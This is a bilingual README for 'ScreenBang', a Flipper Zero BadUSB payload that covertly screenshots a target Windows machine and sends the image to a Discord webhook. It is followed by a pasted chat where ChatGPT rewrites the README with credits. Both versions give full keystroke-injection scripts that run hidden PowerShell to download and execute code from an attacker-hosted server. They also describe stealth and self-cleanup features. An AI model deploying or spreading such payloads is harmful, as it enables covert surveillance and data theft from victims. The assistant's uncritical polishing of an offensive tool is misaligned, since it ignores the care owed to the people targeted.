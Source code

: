 ScreenBang
ScreenBang is a Flipper Zero payload designed to discreetly capture a screenshot of a target Windows machine and send it directly to a Discord server via a webhook. It provides both a Python-based option and a standalone executable for flexible use.

Features
📸 Screenshot Capture: Takes a full-screen screenshot of the target machine.
🚀 Discord Webhook Integration: Sends screenshots directly to a Discord channel.
🧹 Automatic Cleanup: Deletes temporary files, including the executable, after execution.
🕵️ Stealth Mode: Uses hidden PowerShell commands to operate without drawing attention.
🔌 Flipper Zero Integration: Works seamlessly with Flipper Zero in BadUSB mode.
Project Structure
bash
Copier le code
ScreenBang/
│
├── bang.py               # Python script for screenshot capture and Discord webhook
├── bang.exe              # Compiled standalone executable of bang.py
├── app.py                # Flask server for hosting scripts
├── Screen Bang PY        # Payload for downloading and executing bang.py
├── Screen Bang EXE       # Payload for downloading and executing bang.exe
├── LICENSE               # MIT license file
├── README.md             # Documentation (English and French)
Requirements
A Flipper Zero device with BadUSB enabled.
A Discord Webhook URL.
A Windows machine (7, 10, or 11).
Optional: Python-based setup
Python 3.8+ installed on the target machine.
Python libraries: requests, Pillow.
Installation
1. Modify the Webhook URL
Before using the Python script, you need to replace the placeholder webhook URL with your own Discord webhook.

Open bang.py in a text editor.
Locate the line:
python
Copier le code
WEBHOOK_URL = "<Your discord webhook here>"
Replace <Your discord webhook here> with your Discord webhook URL. For example:
python
Copier le code
WEBHOOK_URL = "https://discord.com/api/webhooks/your_webhook_id/your_webhook_token"
Save the file.
2. Deploy the Flask Server
Clone the repository:
bash
Copier le code
git clone https://github.com/DuarteAd/ScreenBang.git
cd ScreenBang
Install dependencies for the Flask server:
bash
Copier le code
pip install -r requirements.txt
Deploy the server (e.g., on Heroku):
bash
Copier le code
heroku create
git push heroku main
The Flask server will host bang.py and bang.exe for the payloads to download.
3. Prepare Flipper Zero Payloads
For the executable:
Use the Screen Bang EXE payload to download and execute bang.exe:
plaintext
Copier le code
REM Download and execute bang.exe
DELAY 1000
GUI r
DELAY 500
STRING powershell -WindowStyle Hidden -Command "& {Start-BitsTransfer -Source 'https://<your-heroku-app>.herokuapp.com/bang.exe' -Destination 'C:\Temp\bang.exe'; Start-Process -WindowStyle Hidden -FilePath 'C:\Temp\bang.exe'}"
ENTER
For the Python script:
Use the Screen Bang PY payload to download and execute bang.py:
plaintext
Copier le code
REM Download and execute bang.py
DELAY 1000
GUI r
DELAY 500
STRING powershell -Command "Invoke-WebRequest -Uri 'https://<your-heroku-app>.herokuapp.com/bang.py' -OutFile 'C:\Temp\bang.py'; python C:\Temp\bang.py"
ENTER
Usage
Deploy the payload to your Flipper Zero.
Connect the Flipper Zero to the target Windows machine.
Execute the payload to capture a screenshot and send it to Discord.
Disclaimer
This project is for educational purposes only.
Unauthorized use of this tool is strictly prohibited and may violate local laws.
Always ensure you have explicit permission before testing this on any machine.
ScreenBang
ScreenBang est un payload conçu pour le Flipper Zero, permettant de capturer discrètement l'écran d'une machine Windows cible et de l'envoyer directement à un serveur Discord via un webhook. Il offre une option basée sur Python ainsi qu'une version exécutable autonome.

Fonctionnalités
📸 Capture d'écran : Capture l'écran complet de la machine cible.
🚀 Intégration Discord : Envoie les captures directement à un canal Discord.
🧹 Nettoyage automatique : Supprime les fichiers temporaires après exécution.
🕵️ Mode furtif : Utilise des commandes PowerShell masquées pour rester discret.
🔌 Intégration Flipper Zero : Fonctionne parfaitement avec le mode BadUSB du Flipper Zero.
Structure du projet
bash
Copier le code
ScreenBang/
│
├── bang.py               # Script Python pour la capture et Discord
├── bang.exe              # Version autonome compilée de bang.py
├── app.py                # Serveur Flask pour héberger les scripts
├── Screen Bang PY        # Payload pour télécharger et exécuter bang.py
├── Screen Bang EXE       # Payload pour télécharger et exécuter bang.exe
├── LICENSE               # Licence MIT
├── README.md             # Documentation (anglais et français)
Prérequis
Un Flipper Zero avec le mode BadUSB activé.
Un webhook Discord valide.
Une machine Windows (7, 10 ou 11).
Optionnel : Configuration Python
Python 3.8+ installé sur la machine cible.
Bibliothèques Python nécessaires : requests, Pillow.
Installation
1. Modifier l'URL du Webhook
Avant d'utiliser le script Python, vous devez remplacer l'URL du webhook par votre propre URL Discord.

Ouvrez bang.py dans un éditeur de texte.
Trouvez la ligne suivante :
python
Copier le code
WEBHOOK_URL = "<Your discord webhook here>"
Remplacez <Your discord webhook here> par votre URL de webhook Discord. Exemple :
python
Copier le code
WEBHOOK_URL = "https://discord.com/api/webhooks/votre_webhook_id/votre_webhook_token"
Enregistrez le fichier.
2. Déployer le serveur Flask
Clonez le dépôt :
bash
Copier le code
git clone https://github.com/DuarteAd/ScreenBang.git
cd ScreenBang
Installez les dépendances :
bash
Copier le code
pip install -r requirements.txt
Déployez sur Heroku ou un autre service :
bash
Copier le code
heroku create
git push heroku main
3. Préparer les payloads pour le Flipper Zero
Pour l'exécutable :
Utilisez le payload Screen Bang EXE pour télécharger et exécuter bang.exe.
Pour le script Python :
Utilisez le payload Screen Bang PY pour télécharger et exécuter bang.py.
Utilisation
Chargez le payload sur votre Flipper Zero.
Connectez le Flipper Zero à la machine cible.
Exécutez le payload pour capturer l'écran et l'envoyer sur Discord.
Avertissement
Ce projet est destiné uniquement à des fins éducatives.
Toute utilisation non autorisée est strictement interdite et peut enfreindre la loi.
Assurez-vous d'avoir une autorisation explicite avant d'utiliser cet outil.
Avec ces ajouts, votre README est détaillé, multilingue et convivial pour les utilisateurs. 🚀





Vous avez dit :
j'aimerai que tu le re écrive, avec des crédit cette fois
ChatGPT a dit :
Voici un README complet et enrichi, avec une section Crédits pour donner un crédit approprié. Il est rédigé de manière professionnelle, lisible, et organisé.

ScreenBang
ScreenBang is a Flipper Zero payload designed to discreetly capture a screenshot of a target Windows machine and send it directly to a Discord server via a webhook. This tool provides both a Python-based solution and a standalone executable for flexible and seamless use.

Features
📸 Screenshot Capture: Takes a full-screen screenshot of the target machine.
🚀 Discord Webhook Integration: Automatically sends screenshots to a Discord channel.
🧹 Automatic Cleanup: Deletes temporary files, including the executable, after execution.
🕵️ Stealth Mode: Operates using hidden PowerShell commands to avoid detection.
🔌 Flipper Zero Integration: Designed specifically for Flipper Zero's BadUSB functionality.
Project Structure
bash
Copier le code
ScreenBang/
│
├── bang.py               # Python script for screenshot capture and Discord webhook
├── bang.exe              # Compiled standalone executable of bang.py
├── app.py                # Flask server for hosting the scripts
├── Screen Bang PY        # Payload for downloading and executing bang.py
├── Screen Bang EXE       # Payload for downloading and executing bang.exe
├── LICENSE               # MIT license
├── README.md             # Project documentation
Requirements
A Flipper Zero device with BadUSB functionality enabled.
A Discord Webhook URL.
A target machine running Windows (7, 10, or 11).
Optional: Python-based setup
Python 3.8+ installed on the target machine.
Required Python libraries:
requests
Pillow
Installation
1. Modify the Webhook URL
To use the Python script, you must replace the placeholder webhook URL with your own.

Open bang.py in any text editor.
Locate the line:
python
Copier le code
WEBHOOK_URL = "<Your discord webhook here>"
Replace <Your discord webhook here> with your actual Discord webhook URL. For example:
python
Copier le code
WEBHOOK_URL = "https://discord.com/api/webhooks/your_webhook_id/your_webhook_token"
Save the file.
2. Deploy the Flask Server
Clone the repository:
bash
Copier le code
git clone https://github.com/DuarteAd/ScreenBang.git
cd ScreenBang
Install dependencies for the Flask server:
bash
Copier le code
pip install -r requirements.txt
Deploy the server to a cloud platform (e.g., Heroku):
bash
Copier le code
heroku create
git push heroku main
The server will host bang.py and bang.exe for payloads to download.
3. Prepare Flipper Zero Payloads
For the executable:
Use the Screen Bang EXE payload:
plaintext
Copier le code
REM Download and execute bang.exe
DELAY 1000
GUI r
DELAY 500
STRING powershell -WindowStyle Hidden -Command "& {Start-BitsTransfer -Source 'https://<your-heroku-app>.herokuapp.com/bang.exe' -Destination 'C:\Temp\bang.exe'; Start-Process -WindowStyle Hidden -FilePath 'C:\Temp\bang.exe'}"
ENTER
For the Python script:
Use the Screen Bang PY payload:
plaintext
Copier le code
REM Download and execute bang.py
DELAY 1000
GUI r
DELAY 500
STRING powershell -Command "Invoke-WebRequest -Uri 'https://<your-heroku-app>.herokuapp.com/bang.py' -OutFile 'C:\Temp\bang.py'; python C:\Temp\bang.py"
ENTER
Usage
Load the payload onto your Flipper Zero.
Connect the Flipper Zero to the target Windows machine.
Execute the payload to capture a screenshot and send it to Discord.
Disclaimer
This project is for educational purposes only.
Unauthorized use of this tool is strictly prohibited and may violate local laws.
Ensure you have explicit permission before using this tool on any machine.
Credits
This project was developed by DuarteAd with the goal of providing a practical and educational example of Flipper Zero's BadUSB capabilities.

Special Thanks
The Flipper Zero Community for their continuous support and innovation.
The developers of Pillow and Requests for enabling key functionalities in this project.
Everyone who contributed feedback and testing to improve ScreenBang.
License
This project is licensed under the MIT License. You are free to use, modify, and distribute this software, provided you include proper credit to the original author.

Support
If you encounter any issues or have suggestions for improvement, feel free to open an issue on GitHub.

